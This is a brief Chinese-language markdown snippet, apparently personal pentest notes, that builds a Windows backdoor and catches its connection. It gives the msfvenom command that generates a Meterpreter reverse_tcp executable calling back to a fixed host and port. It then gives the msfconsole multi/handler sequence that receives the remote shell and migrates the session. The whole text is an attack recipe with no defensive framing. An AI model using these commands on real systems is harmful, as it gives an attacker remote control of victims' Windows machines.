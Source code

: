 ## 生成Windows马

```shell
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.247.129 lport=4444 -f exe -o 123.exe # 使用msfvenom生成Windows后门
```

## 启动监听

```shell
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
> set lhost 192.168.247.129
> set lport 4444
> exploit
> migrate
```

